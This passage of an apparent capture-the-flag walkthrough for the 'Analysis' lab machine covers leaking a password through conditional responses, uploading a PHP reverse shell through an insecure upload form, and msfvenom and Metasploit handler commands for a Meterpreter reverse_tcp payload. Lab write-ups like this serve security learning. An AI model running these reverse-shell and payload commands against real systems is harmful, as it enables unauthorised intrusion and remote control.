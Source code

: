 It looks like payload "9" has trigged conditional response ("technician" shows in the output) and the password starts with 9! Modify the payload further by putting "9" before the placeholder. The next password character should appear in the result:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/intruderfinal7.png" alt="">
  <figcaption>7</figcaption>
</figure>

Continue the process until you leak technician's password to get the first set of credentials. The password has 14 characters and "\*" as the 7th character. Then navigate to an endpoint discovered previously, *http://internal.analysis.htb/employees/login.php*. Login as **technician@analysis.htb** with the discovered password. Administrative dashboard will appear:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/admindash.png" alt="">
  <figcaption></figcaption>
</figure>

### Insecure Upload / Shell

Navigate to "**SOC Report**" tab which has file upload functionality. Upload a **php reverse shell** of your choice and then access it by the following URL: *http://internal.analysis.htb/dashboard/uploads/(YOURSHELL).php*. In my case, I am using **p0wnyshell**.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/shellpwn.png" alt="">
  <figcaption></figcaption>
</figure>

Foothold has been establised.

## Privilege Escalation

At this point, it is recommended to establish a more persitent shell on the host to be able to perform further enumeration. It can be done with **Meterpreter** module in **Metasploit**. Generate Meterpreter payload with the following command (make sure to use x64 payload!):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP ADDR> LPORT=<LISTENING PORT> -f exe > <FILENAME>
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/msfvenom.png" alt="">
  <figcaption></figcaption>
</figure>

Start a Meterpreter listener on the specified address and port:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost = <IP ADDR>
set lport = <LISTENING PORT>
run
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/analysis/meterlistener.png" alt="">
  <figcaption></figcaption>
</figure>
